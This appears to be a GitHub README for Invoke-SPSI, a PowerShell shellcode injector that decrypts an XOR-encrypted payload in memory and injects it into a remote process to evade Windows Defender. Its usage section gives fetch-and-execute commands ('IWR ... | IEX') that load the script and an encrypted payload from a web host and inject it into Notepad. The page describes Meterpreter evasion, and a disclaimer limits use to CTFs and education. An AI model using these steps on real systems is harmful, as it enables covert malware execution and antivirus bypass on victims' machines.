

# Invoke-SPSI - Simple PowerShell Shellcode Injector

Basic PowerShell script that decrypts an XOR-encrypted payload in memory, then uses a .NET-based D/Invoke implementation to call Win32 APIs for injecting shellcode into a remote process.

This script is a good example of how a fully updated Windows Defender can still be bypassed using a highly signatured Meterpreter payload and a very simple injection method.

**Do not use in real engagements.** The main focus is CTFs and very lightweight infrastructures.  
It will **not** bypass modern EDR solutions or paid antivirus products.

---

<p align="center">
    
</p>

## Usage
1. Encode your payload with XOR:
```python
python3 xor.py -i calc.bin -k f62f054feab9fc06424fa3a2795d7286 -o calc.enc
```
2. Load Invoke-SPSI.ps1 in Powershell:
```powershell
#1 web
IWR -uri http://example.com/Invoke-SPSI.ps1 | IEX
#2 local file
Get-Content C:\Invoke-SPSI.ps1 -Raw | IEX
```
3. Invoke and pass arguments:
```powershell
#1 fetch payload from web
Invoke-SPSI -url http://example.com/payload.enc -TargetProcess Notepad -key f62f05...
#2 fetch payload from local file
Invoke-SPSI -File C:\payload.enc -TargetProcess Notepad -key f62f05...
```
---

## Disclaimer
For educational purposes only.  
The author is not responsible for any misuse of this code.
